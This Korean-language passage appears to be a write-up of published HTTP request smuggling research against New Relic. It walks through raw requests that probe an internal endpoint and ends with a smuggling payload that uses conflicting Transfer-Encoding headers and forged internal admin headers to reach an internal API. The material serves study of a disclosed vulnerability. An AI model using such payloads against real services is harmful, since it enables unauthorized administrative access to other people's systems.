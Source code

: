```
...
GET /revision_check HTTP/1.1
Host: staging-alerts.newrelic.com
X-Forwarded-Proto: https
```

```
HTTP/1.1 200 OK

Not authorized with header:
```

이 오류 메시지로 어떠한 Authorization Header가 필요하다는 것을 알 수 있었고, 전에 다른 Entry-Point에서 봤던 `X-nr-external-service` 헤더를 사용했다.

```
...
GET /revision_check HTTP/1.1
Host: staging-alerts.newrelic.com
X-Forwarded-Proto: https
X-nr-external-service: 1
```

```
HTTP/1.1 403 Forbidden

Forbidden
```

안타깝게도 결과는 실패로 돌아갔다. URL에 직접 접속했을 때 나오는 에러와 동일한 에러가 발생되는 것을 확인 할 수 있었고, 이것이 의미하는 바는 다음과 같다. 

- Front-End는 인터넷을 통해 요청이 들어왔음을 `X-nr-external-service` 헤더를 통해 알리고 있었고, 이를 없에므로써 내부에서 요청이 들어왔다는 것을 알리는 역할을 하는 것이다.

이것은 매우 유용한 정보지만, 아직 어떤 Authorization Header가 필요한지 알 수 없다.

이를 알기 위해 다양한 방법이 존재하겠지만(예를 들면 processed-request-reflection technique), James Kettle은 전에 New-Relic에서 취약점을 찾았을 때를 참고 했다. 그리고 `Server-Gateway-Account-Id` 및 `Service-Gateway-Is-Newrelic-Admin` 이라는 매우 유용한 헤더를 알게되었다. 그리고 결과론적으로 Admin 권한으로 모든 API를 통제 할 수 있었다.

```
POST /login HTTP/1.1
Host: login.newrelic.com
Content-Length: 564
Transfer-Encoding: chunked
Transfer-encoding: cow

0

POST /internal_api/934454/session HTTP/1.1
Host: alerts.newrelic.com
X-Forwarded-Proto: https
Service-Gateway-Account-Id: 934454
Service-Gateway-Is-Newrelic-Admin: true
Content-Length: 6
…
x=123GET...
```
